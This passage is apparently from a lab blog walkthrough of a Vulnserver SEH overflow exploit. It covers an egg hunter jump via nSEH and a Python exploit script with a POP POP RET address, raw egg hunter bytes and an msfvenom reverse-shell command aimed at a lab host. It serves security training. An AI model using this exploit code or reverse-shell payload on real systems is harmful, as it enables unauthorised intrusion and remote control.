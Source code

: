 When looking at the dump, we see that there is very little space for shell code. However, we can use the nSEH to jump backwards to some egg hunter code - which we talked about the other day.

![Image](assets/img/blog/vulnserver-seh-overflow/image-79.png)

https://frostylabs.net/projects/lets-go-egg-hunting/

* * *

## Finishing the Exploit

We use mona to generate some egg hunting code `!mona egg -t w00t` and insert that into the exploit in the initial buffer of As. I wondered if we could place the shellcode in the Cs however, I was not able to get that to work... We need to consider what nSEH will be set to. We want it to jump to the beginning of the egg hunter code. We calculate this with the 32 bytes of egg hunter, plus 2 bytes jump code, plus 5 bytes to A. I generate the shellcode using msfvenom, and we are ready to let the exploit go.

![Image](assets/img/blog/vulnserver-seh-overflow/image-74.png)

```py
#!/usr/bin/python
import sys, socket

ip = '10.21.1.15'
port = 9999

# Badchars: \x00

# Use !mona seh to find POP POP RET instructions
# POP POP RET: \x625010B4 - essfunc.dll

nseh = "\xEB\xD9\x90\x90" # Jump back to start of egg hunter
seh = "\xB4\x10\x50\x62" # POP POP RET

egghunter = (
    "\x66\x81\xca\xff\x0f\x42\x52\x6a"
    "\x02\x58\xcd\x2e\x3c\x05\x5a\x74"
    "\xef\xb8\x77\x30\x30\x74\x8b\xfa"
    "\xaf\x75\xea\xaf\x75\xe7\xff\xe7"
)

# msfvenom -p windows/shell_reverse_tcp EXITFUNC=thread LHOST=10.21.1.13 LPORT=1234 -b '\x00' -f python -v shellcode

shellcode =  b""
```